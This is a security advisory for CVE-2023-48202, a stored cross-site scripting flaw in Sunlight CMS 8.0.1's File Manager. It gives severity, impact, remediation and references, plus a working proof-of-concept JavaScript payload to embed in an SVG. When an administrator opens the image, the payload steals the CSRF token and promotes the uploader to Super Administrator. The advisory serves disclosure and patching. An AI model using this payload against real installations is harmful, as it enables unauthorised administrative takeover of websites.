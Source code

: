 # Stored Cross-Site Scripting (XSS) in SVG image file uploaded in File Manager in Sunlight CMS 8.0.1

> https://github.com/sunlight-cms/sunlight-cms

# Vulnerability Type
CWE-79: Cross-site Scripting (XSS) - Stored

# CVSS 5.4 MEDIUM
CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N

# Description
A user that is in the 'Editors' group or any group that can upload files in the File Manager, is able to upload an SVG file with malicious Javascript code. After an Administrator or Super Administrator clicks and opens the image, the malicious code is executed.

# Execution steps
1. Create the new user 'editor1' and adde it to the group 'Editors'.
2. The user 'editor1' uploads a malicious SVG file.
3. Access the image using the File Manager as a Super Administrator to execute the malicious code in the SVG image.
4. User 'editor1' is added to the 'Super Administrators' group.

# Impact
Stored Cross-Site Scripting vulnerability in Sunlight CMS 8.0.1 allows an authenticated low-privileged user to escalate his privileges. A malicious user that is in the 'Moderators' group or any group that can upload files in the File Manager, can escalate his privileges to any higher level group, including Administrators and Super Administrators without being authorized. The malicious user can then create, edit and delete any content in the CMS, create/edit/delete users with any privilege and read the database using the backup functionality.

# Remediation
Sanitize SVG image files by removing scripts before rendering or convert SVG image files to safer formats like PNG and JPG.

# Proof of Concept code
Create a valid SVG image file and then add the following code:

```js
<script type="text/javascript">
	var csrf_token;
	var xhrGET_users_edit = new XMLHttpRequest(); 
	xhrGET_users_edit.responseType = "document"; 
	xhrGET_users_edit.onreadystatechange = function() {	
		if (this.readyState == 4 &amp;&amp; this.status == 200) {
			var doc = this.responseXML ;
			csrf_token = doc.getElementsByName("_security_token")[0].value;		
			var xhr = new XMLHttpRequest();
			xhr.open("POST", "http:\/\/sunlight\/admin\/index.php?p=users-edit&amp;id=editor1", true);
			xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
			xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,image\/apng,*\/*;q=0.8,application\/signed-exchange;v=b3;q=0.7");
			xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9");
			xhr.withCredentials = true;
			var body = "username=editor1&amp;publicname=editor1&amp;email=editor1%40test.tk&amp;password=&amp;group_id=1&amp;wysiwyg=1&amp;public=1&amp;note=&amp;_security_token="+csrf_token;
			var aBody = new Uint8Array(body.length);
			for (var i = 0; i &lt; aBody.length ; i++)
				aBody[i] = body.charCodeAt(i); 
			xhr.send(new Blob([aBody]));
		}
	};
	xhrGET_users_edit.open("GET", "/admin/index.php?p=users-edit&amp;id=editor1", true);
	xhrGET_users_edit.send();
</script>
```

# References
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-48202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-48202)
- [https://github.com/sunlight-cms/sunlight-cms/commit/21c2bb50fbf99921a1deaf89ebe965b34ff03f51](https://github.com/sunlight-cms/sunlight-cms/commit/21c2bb50fbf99921a1deaf89ebe965b34ff03f51)
- [https://nvd.nist.gov/vuln/detail/CVE-2023-48202](https://nvd.nist.gov/vuln/detail/CVE-2023-48202)
